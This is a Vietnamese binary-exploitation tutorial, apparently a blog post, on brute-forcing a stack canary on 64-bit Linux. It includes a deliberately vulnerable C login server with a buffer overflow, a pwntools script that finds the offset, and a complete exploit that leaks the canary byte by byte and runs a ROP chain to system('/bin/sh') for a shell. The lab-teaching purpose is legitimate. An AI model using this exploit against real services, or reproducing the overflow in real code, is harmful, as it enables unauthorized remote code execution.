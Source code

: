 Sau phần 4, hướng dẫn cách bypass NX (Non-executable Stack), hôm nay mình sẽ hướng dẫn cách bypass stack canary trên linux 64 bits bằng phương pháp brute force.
## 1. Stack canary là gì?
Stack canary là cơ chế bảo mật cho stack, nó ngăn chúng ta thực hiện khai thác thỗi buffer overflow nhằm thay đổi thanh ghi và truyền shellcode. Hiểu đơn giản, mình có hình ảnh stack trước và sau khi sử dụng stack canary như sau:
![](https://images.viblo.asia/d04ee771-9e41-4c0f-a7dc-521f54ed87bd.png)

Như vậy, 8 bytes được thêm vào sau phần buffer, đảm bảo răng nếu xảy ra lỗi buffer overflow, stack canary sẽ bị thay đổi, từ đó ngăn chặn việc khai thác có thể xảy ra.
Theo cơ chế này, chúng ta có cách khai thác là brute force, tìm ra stack canary sau đó gửi kèm payload để thực hiện khai thác
## 2. Phân tích chương trình khai thác với gdb
Sau bài viết về socket programming, mình thực hiện viết server để khai thác với mã code c như sau, mình đã update lên link github : https://github.com/vuongle-vigo/BinaryExploit/tree/master/Buffer%20Overflow/StackCanary_Bypass

server_vuln.c
```
# include <stdio.h>
# include <string.h>
# include <stdlib.h>
# include <unistd.h>
# include <netinet/in.h>
# include <arpa/inet.h>
# include <sys/socket.h>
# include <sys/types.h>
# include <errno.h>
# include <sys/socket.h>
# include <sys/types.h>

#define BUFFER_SIZE 64
#define PORT 8888
#define SERVER_ADDRESS "127.0.0.1"

const char secret_password[] = "S3cr3tP4ssw0rd";

struct sockaddr_in set_sockaddr_in(char *host, int port){
    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    addr.sin_addr.s_addr = inet_addr(host);
    memset(&addr.sin_zero, 0 , sizeof(addr.sin_zero));
    return addr;
}

int set_socket(char *host, int port){
    struct sockaddr_in addr_in = set_sockaddr_in(host, port);
    int sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    if(sockfd < 0){
        perror("socket");
        close(sockfd);
        exit(-1);}
    if (setsockopt(sockfd, SOL_SOCKET, SO_REUSEADDR, &(int){1}, sizeof(int)) == -1) {
    perror("setsockopt() error...\n");
    exit(1);
    }
    if(bind(sockfd, (struct sockaddr *)&addr_in, sizeof(struct sockaddr)) < 0){
        perror("bind");
        close(sockfd);
        exit(-1);}
    return sockfd;
}

int auth(int connectfd){
    char message[] = "User Access Verification\n\nPassword: ";
    write(connectfd, message, strlen(message));
    char buffer[BUFFER_SIZE];
    int size = read(connectfd, buffer, 512);
    return (strcmp(buffer, secret_password)==0);
}

int main(int argc, char *argv[]){
    int sockfd = set_socket(SERVER_ADDRESS, PORT);
    
    if((listen(sockfd, 5)) == -1) {
        perror("listen");
        close(sockfd);
        exit(-1);
    }
    printf("Listening on %s port %d\n", SERVER_ADDRESS, PORT);

    struct sockaddr_in client_addr;
    socklen_t addr_len = sizeof(struct sockaddr_in);
    int connectfd;
    while(1){
        if((connectfd = accept(sockfd, (struct sockaddr *)&client_addr, &addr_len))<0){
            exit(0);
        }
        pid_t pid = fork();
        if(pid<0){
            perror("fork");
            exit(0);
        }
        if(pid==0){//child
            close(sockfd);
            if(auth(connectfd)==1){
            char success[] = "Login successful";
            write(connectfd, success, strlen(success));
            } else {
                char invalid[] = "Invalid Password";
                write(connectfd, invalid, strlen(invalid));
                }
        }
        else if(pid>0){//parrent
            close(connectfd);
        }
    }
    
    return 0;
    
}
```
Thực hiện compile chương trình: `gcc -fstack-protector server_vuln.c -o server_vuln
`
Sử dụng checksec ta thầy stackcanary đã được bật.
Chạy thử chương trình cùng với netcat ta được kết quả như sau:
![](https://images.viblo.asia/375e4157-9f86-4825-ba2a-1961d45567e9.png)

Chương trình yêu cầu nhập password, nếu sai sẽ trả về Invalid password.

## 3. Viết chương trình khai thác với python3 pwntools

Đầu tiên mình sẽ viết file python để xác định xem cần bao nhiêu kí tự để ghi đè lên stack canary:

```
from pwn import *

context.update(os = "linux", arch = "amd64")

buffer = "A"
payload = buffer


def exploit(payload, interactive=False):
	size_payload = 0
	for i in range(100):
		try:
			r = remote("localhost", 8888, level='error')
			r.sendafter("Password: ", payload)
			recv_data = r.recv(100, 0.1)
			if(recv_data == b"Invalid Password"):
				size_payload += 1
				payload += "A"	
		except EOFError:
			break
		finally:
			r.close()
	print("Size of payload = ", size_payload)
exploit(payload)
```
Chạy file ta được kết quả như sau:
![](https://images.viblo.asia/5730c531-0201-4ed6-96cb-b32d1195c633.png)

Vậy kết quả là 72, ta thấy ở server hiện thị stack smashing detected. Tức là ở kí tự thứ 73 đã gây ra lỗi này.
Dưới đây là file python khai thác hoàn thiện của mình, kết hợp với NX_bypass mình viết ở phần trước, ta sẽ lấy được 1 shell.
```
from pwn import *

context.update(os = "linux", arch = "amd64")

buffer = b'A'*72
payload = buffer

def exploit(payload, interactive=False):
	try:
		r = remote("localhost", 8888, level='error')
		r.sendafter(b"Password: ", payload)
		recv_data = r.recv(100, 0.1)
		if(recv_data == b"Invalid Password"):
			return True
	except EOFError:
		return False
	finally:
		if interactive:
			r.interactive()
		else: 
			r.close()

def leak_bytes(payload, name):
	leak_bytes = []
	progress = log.progress(name, level=logging.WARN)
	for i in range(8):
		for k in range(0,256):
			if(exploit(payload + p8(k))):
				payload = payload + p8(k)
				leak_bytes.insert(0, hex(k))
				progress.status(repr(leak_bytes))
				break
	log.info(f"Leaked {name} = {hex(u64(payload[-8:]))}")
	return payload

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') 
libc.address = 0x007ffff7dce000
rop = ROP(libc)
rop.dup2(4, 0)
rop.dup2(4, 1)
rop.dup2(4, 2)
rop.system(next(libc.search(b"/bin/sh")))
payload = leak_bytes(payload, "Canary")
payload += p64(0xBADC0FFEE0DDF00D) 
# sys = p64(libc.sym.get("system"))
# exit = p64(libc.sym.get("exit"))
# binsh = p64(next(libc.search(b"/bin/sh")))

# log.info(f"ROP Chain:\n{rop.dump()}")

payload += bytes(rop)

exploit(payload, True)
```
Kết quả nhận được như sau:
![](https://images.viblo.asia/12763f21-61c9-4a17-a1a5-ff376b4edb32.png)
Vậy là mình đã lấy được 1 shell.